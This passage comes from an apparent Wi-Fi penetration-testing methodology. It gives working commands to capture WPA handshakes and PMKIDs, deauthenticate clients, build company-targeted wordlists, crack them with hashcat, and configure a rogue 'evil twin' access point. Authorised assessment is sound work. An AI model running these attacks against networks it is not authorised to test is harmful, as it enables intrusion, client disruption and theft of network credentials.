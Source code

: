 ```bash
- Rate limiting effectiveness
```

#### 3.4 WPA/WPA2 Assessment

```bash
# Capture 4-way handshake
sudo airodump-ng -c [CHANNEL] --bssid [AP_MAC] -w handshake wlan0mon

# Trigger client reconnection
sudo aireplay-ng -0 5 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon

# Verify handshake capture
aircrack-ng handshake-01.cap

# PMKID attack attempt
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1
hcxpcapngtool -z pmkid.hash pmkid.pcapng
```

#### 3.5 Dictionary and Brute Force Analysis

```bash
# Create target-specific wordlists
# Common patterns:
- CompanyName + years/numbers
- Location + common passwords
- Industry-specific terms
- Seasonal patterns

# Generate custom wordlists
crunch 8 15 -t [COMPANY_NAME]%%%% > custom.txt
cewl -w 6 -d 2 http://company-website.com > website_words.txt

# Hashcat GPU acceleration
hcxpcapngtool -o hash.hc22000 handshake.cap
hashcat -m 22000 hash.hc22000 custom_wordlist.txt --force

# Document time estimates
# Calculate crack time based on:
- Wordlist size
- GPU performance
- Password complexity patterns
```

### Phase 4: Advanced Attack Techniques

#### 4.1 Evil Twin Attacks

```bash
# Create rogue access point
# hostapd.conf configuration
interface=wlan1
driver=nl80211
ssid=CompanyWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
wpa=2
wpa_passphrase=TemporaryPassword
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP

```